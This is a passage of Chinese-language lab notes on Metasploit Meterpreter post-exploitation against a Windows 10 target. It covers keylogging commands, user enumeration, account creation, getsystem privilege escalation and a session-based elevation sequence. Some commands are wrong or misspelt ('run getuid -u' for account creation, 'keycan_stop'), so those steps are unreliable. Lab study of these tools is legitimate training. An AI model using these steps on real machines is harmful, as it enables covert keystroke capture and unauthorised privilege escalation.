 
## 键盘记录
| keyscan_start | 启动键盘记录 |
| --- | --- |
| keyscan_dump | 导出键盘(Windows) |
| keycan_stop | 停止键盘记录(Windows) |


## 查看, 创建账户和提权
> **靶机: win10 企业版 2015 长期服务**

**系统的权限 > 超级管理员的权限 > 普通用户的权限**

1. 查看目标已经存在的账户
```markdown
 run post/windows/gather/enum_logged_on_users
```

1. 创建账户(只有系统管理员才可以) 
```markdown
run getuid -u 用户名 -p 密码
```

2. 提权
```
getsystem
 
 #  在windows中 按住 win+R 输入: netplwiz 可以看到当前电脑上的用户有哪些
```

1. 无法提权
```
 bg
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673779508305-d1d156d5-99cb-4d14-a747-91aa850e5034.png#averageHue=%23130c0b&clientId=u72ca8e9d-807f-4&from=paste&id=udd2c5636&originHeight=81&originWidth=543&originalType=url&ratio=1&rotation=0&showTitle=false&size=8489&status=done&style=none&taskId=u9726b880-28ac-45c3-8286-bf646171f6d&title=)
```
# 查看那些参数需要配置
 options
```
```
# 配置session
 set session 刚才bg看到的session
```
```
 run
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673779508317-f9380fd0-20a9-4a04-aa55-ed28b30149cc.png#averageHue=%23090504&clientId=u72ca8e9d-807f-4&from=paste&id=u69145a27&originHeight=159&originWidth=678&originalType=url&ratio=1&rotation=0&showTitle=false&size=15582&status=done&style=none&taskId=u1c0e17f3-c00f-4c62-916d-ac3c867d8b2&title=)
之后在靶机上会弹出:
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673779508331-54a96ada-58a5-475b-bf0a-bc77d34532fd.png#averageHue=%23f4be28&clientId=u72ca8e9d-807f-4&from=paste&id=u1cfb8463&originHeight=353&originWidth=770&originalType=url&ratio=1&rotation=0&showTitle=false&size=70856&status=done&style=none&taskId=uc92338ed-9221-441d-9220-b2dbb47e491&title=)
点击**是**, 就可以了


## 调用靶机音频设备
